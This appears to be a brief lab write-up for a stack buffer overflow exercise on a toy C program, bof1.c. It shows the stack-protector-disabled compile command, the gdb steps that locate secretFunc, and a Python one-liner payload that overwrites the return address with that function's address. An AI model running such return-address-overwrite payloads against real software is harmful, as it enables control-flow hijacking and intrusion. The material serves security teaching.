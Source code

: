 # bof1.c  
In this attack, we aim to overwrite the return address with the address of a different function (redirect control) using Python!  

# Stackframe


# Vulnerability  
At the function `gets(array);` the attacker can control the flow of execution by input larger than 200 bytes  

# Attack  
Compile file without stack protection  
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`
![alt text](image.png)

Run gdb  
`gdb bof1.out`
![alt text](image-1.png)  

Disassemble the vuln function  
`disas vuln`
![alt text](image-2.png)  

Disassemble secretFunc  
`disas secretFunc`
![alt text](image-3.png)  
The address of 'secretFunc' is 0x0804846b  

To attack, based on the stackframe we need 204 bytes   
To quit  
`q`  
To generate create 204 bytes by generate 204 character 'a'  
`echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123`
 ![alt text](image-4.png)